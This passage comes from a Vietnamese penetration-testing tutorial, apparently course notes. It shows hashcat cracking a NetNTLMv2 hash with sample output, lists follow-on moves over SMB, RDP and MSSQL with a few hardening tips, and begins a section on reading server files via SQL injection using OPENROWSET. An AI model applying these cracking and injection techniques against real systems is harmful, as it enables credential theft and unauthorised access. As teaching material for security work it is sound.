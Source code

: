
### **4. Crack NetNTLM Hash**

#### **Sử dụng Hashcat để crack:**
- **Cấu trúc lệnh:**
  ```bash
  hashcat -m 5600 <hash> <wordlist>
  ```

- **Ví dụ:**
  ```bash
  hashcat -m 5600 'jason::SQL01:bd7f162c24a39a0f:94DF80C5ABB<SNIP>000000' /usr/share/wordlists/rockyou.txt
  ```

- **Kết quả:**
  ```plaintext
  Status...........: Cracked
  Hash.Mode........: 5600 (NetNTLMv2)
  Hash.Target......: jason::SQL01:bd7f162c24a39a0f:94df80c5abb...000000
  Password.........: MyPassword123
  ```

---

### **5. Mở rộng**

#### **Sử dụng mật khẩu để leo thang đặc quyền**
- Sử dụng mật khẩu vừa crack được để:
  - **Truy cập SMB:** Dùng `smbclient` để kiểm tra chia sẻ SMB.
  - **RDP:** Kiểm tra quyền đăng nhập từ xa qua RDP.
  - **Khai thác MSSQL thêm:** Sử dụng quyền mới để chạy lệnh hoặc tấn công sâu hơn.

#### **Phòng chống**
- **Vô hiệu hóa xp_cmdshell** nếu không cần thiết.
- **Giới hạn quyền sysadmin** trên tài khoản MSSQL.
- **Bảo mật SMB:** Sử dụng SMBv2/v3 và chặn giao thức SMB cũ (SMBv1).

---


# 13. Lỗi Đọc File qua SQL Injection

**Lý thuyết:**
Trong ví dụ này, chúng ta khai thác lỗi SQL injection để đọc các file từ hệ thống file của server. Cụ thể, chúng ta sử dụng hàm `OPENROWSET` trong Microsoft SQL Server để đọc các file trực tiếp từ hệ thống file của server. Điều này có thể thực hiện được nếu lỗi SQL injection cho phép chúng ta thực thi các lệnh SQL và có đủ quyền hạn.

Hàm `OPENROWSET` cho phép tương tác với hệ thống file của server và đọc nội dung của các file theo dạng bulk (dữ liệu lớn). Cú pháp phổ biến để đọc một file thông qua `OPENROWSET` như sau:

```sql
SELECT BulkColumn FROM OPENROWSET(BULK '<path>', SINGLE_CLOB) AS x
```
